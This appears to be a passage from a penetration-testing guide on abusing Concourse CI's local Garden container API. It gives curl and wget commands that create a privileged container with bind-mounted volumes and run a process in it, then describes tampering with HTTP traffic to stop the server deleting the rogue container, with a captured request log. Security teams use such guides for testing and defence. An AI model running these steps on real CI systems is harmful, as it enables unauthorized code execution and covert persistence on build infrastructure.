 **Creating a new privileged container**

You can very easily create a new container (just run a random UID) and execute something on it:

```bash
curl -X POST http://127.0.0.1:7777/containers \
   -H 'Content-Type: application/json' \
   -d '{"handle":"123ae8fc-47ed-4eab-6b2e-123458880690","rootfs":"raw:///concourse-work-dir/volumes/live/ec172ffd-31b8-419c-4ab6-89504de17196/volume","image":{},"bind_mounts":[{"src_path":"/concourse-work-dir/volumes/live/9f367605-c9f0-405b-7756-9c113eba11f1/volume","dst_path":"/scratch","mode":1}],"properties":{"user":""},"env":["BUILD_ID=28","BUILD_NAME=24","BUILD_TEAM_ID=1","BUILD_TEAM_NAME=main","ATC_EXTERNAL_URL=http://127.0.0.1:8080"],"limits":{"bandwidth_limits":{},"cpu_limits":{},"disk_limits":{},"memory_limits":{},"pid_limits":{}}}'

# Wget will be stucked there as long as the process is being executed
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
  --header='Content-Type:application/json' \
  'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
```

However, the web server is checking every few seconds the containers that are running, and if an unexpected one is discovered, it will be deleted. As the communication is occurring in HTTP, you could tamper the communication to avoid the deletion of unexpected containers:

```
GET /containers HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
.

T 127.0.0.1:7777 -> 127.0.0.1:59722 [AP] #157
HTTP/1.1 200 OK.
Content-Type: application/json.
Date: Thu, 17 Mar 2022 22:42:55 GMT.
Content-Length: 131.
.
{"Handles":["123ae8fc-47ed-4eab-6b2e-123458880690","ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

T 127.0.0.1:59722 -> 127.0.0.1:7777 [AP] #159
DELETE /containers/123ae8fc-47ed-4eab-6b2e-123458880690 HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
```

## References

* https://concourse-ci.org/vars.html

{% hint style="success" %}